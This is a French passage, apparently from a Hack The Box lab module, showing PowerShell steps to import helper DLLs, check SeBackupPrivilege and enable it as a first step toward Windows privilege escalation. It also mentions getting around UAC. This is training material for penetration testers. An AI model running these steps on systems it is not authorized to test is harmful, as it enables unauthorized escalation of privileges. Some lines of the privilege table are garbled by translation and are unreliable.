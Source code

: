 #### Importation de bibliothèques

Importation de bibliothèques

```
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll

```

#### Vérification que SeBackupPrivilege est activé

Vérifions si `SeBackupPrivilege` est activé en appelant `whoami /priv` ou `Get-SeBackupPrivilege` applet de commande. Si le privilège est désactivé, nous pouvons l'activer avec `Set-SeBackupPrivilege`.

Remarque : en fonction des paramètres du serveur, il peut être nécessaire de générer une invite CMD élevée pour contourner l'UAC et disposer de ce privilège.

Vérifier que SeBackupPrivilege est activé

```
PS C:\htb> whoami /priv

INFORMATIONS SUR LES PRIVILÈGES
----------------------

Nom du privilège Description État
================================================= ========= ========
SeMachineAccountPrivilege Ajouter des postes de travail au domaine Désactivé
SeBackupPrivilege Sauvegarder des fichiers et des répertoires Désactivé
SeRestorePrivilege Restaurer les fichiers et le répertoiresecteurs désactivés
SeShutdownPrivilege Arrêter le système Désactivé
SeChangeNotifyPrivilege Bypass traverse la vérification activée
SeIncreaseWorkingSetPrivilege Augmenter un ensemble de travail de processus Désactivé

```

Vérifier que SeBackupPrivilege est activé

```
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege est désactivé

```

#### Activation de SeBackupPrivilege

Si le privilège est désactivé, nous pouvons l'activer avec `Set-SeBackupPrivilege`.

Activation de SeBackupPrivilege

```
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege est activé

```
